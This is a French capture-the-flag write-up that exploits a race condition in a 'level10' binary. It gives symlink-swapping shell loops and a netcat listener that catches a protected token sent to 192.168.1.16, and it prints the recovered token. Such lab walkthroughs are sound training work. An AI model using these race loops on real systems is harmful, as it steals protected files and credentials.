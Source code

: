 # LEVEL 10


```
strings level10

...
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
;*2$"
...
```

On comprend qu'il y'a 
- Une connexion au serveur sur le port 6969
- Une verification de droit utilisateur sur le fichier server puis envoie de fichier

Ce qu'on peut faire c'est profiter du moment entre la vérification de droit et l'envoie pour modifier le fichier envoyé

Donc on va lancer une boucle qui crée un fichier dans /tmp et une autre boucle qui modifie le fichier crée par une copie du token dans /tmp

On lance en paralléle les deux bouole
```
while true; do ln -fs ~/level10 /tmp/test; ln -fs ~/token /tmp/test; done

while true; do ./level10 /tmp/test 192.168.1.16; done
```

et on va lancer une netcat loop
```
nc -lk 6969
```
-k : Forces nc to stay listening for another connection after its current connection is completed. It is an error to use this option without the -l option.
-l : listen mode, for inbound connects

On trouve:
```
...
woupa2yuojeeaaed06riuj63c
...
```

et avec su flag10 getflag on aura le flag du level10
